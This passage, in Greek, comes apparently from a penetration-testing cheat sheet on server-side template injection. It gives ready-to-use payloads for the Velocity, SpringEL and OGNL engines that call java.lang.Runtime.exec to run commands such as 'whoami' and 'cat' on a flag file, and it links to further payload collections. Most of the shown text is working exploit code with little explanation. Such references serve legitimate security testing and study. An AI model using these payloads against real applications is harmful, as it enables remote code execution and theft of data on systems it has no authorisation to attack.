 - Στην ενότητα FreeMarker του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

### Velocity (Java)
```java
// I think this doesn't work
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

// This should work?
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```
**Περισσότερες πληροφορίες**

- Στην ενότητα Velocity του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)

### Thymeleaf

Στο Thymeleaf, μια κοινή δοκιμή για ευπάθειες SSTI είναι η έκφραση `${7*7}`, η οποία ισχύει επίσης για αυτή την μηχανή προτύπων. Για πιθανή απομακρυσμένη εκτέλεση κώδικα, μπορούν να χρησιμοποιηθούν εκφράσεις όπως οι εξής:

- SpringEL:

```java
${T(java.lang.Runtime).getRuntime().exec('calc')}
```

- OGNL:

```java
${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
```
